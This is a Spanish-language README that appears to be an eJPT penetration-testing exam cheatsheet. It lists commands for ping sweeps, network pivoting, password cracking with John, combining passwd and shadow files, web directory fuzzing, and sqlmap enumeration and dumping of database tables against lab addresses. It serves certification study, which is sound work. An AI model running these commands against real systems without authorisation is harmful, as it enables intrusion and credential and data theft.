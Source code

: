 # eJPT-Cheatsheet
Todos los comandos necesarios para aprobar el eJPT
# Barrido de ping - Ping sweep
## Nmap
```bash
nmap -sn 10.10.10.0/24
```
## fping
```bash
fping -a -g 10.10.10.0/24 2>/dev/null
```
# Pivoting
## Ip Route
```bash
ip route add 10.10.16.0/24 via 10.10.16.1 dev tap0
```
## Metasploit
```bash
run autoroute -s 10.10.16.0/24
```
# Password cracking
## John
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
## Online Tools
[CrackStation](https://crackstation.net/)
# Dump Hashes
## unshadow 
```bash
unshadow passwd shadow > unshadowed.txt
```
# Fuzzing
## Nmap
```bash
nmap --script=http-enum -p80 10.10.14.16 -oN webScan
```
## wfuzz
```bash
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ.php
```
## dirb
```bash
dirb http://10.10.15.12
```
## gobuster
```bash
gobuster dir -u 10.10.14.12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```
# SQLMap
```python
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname -T table_name --dump
```
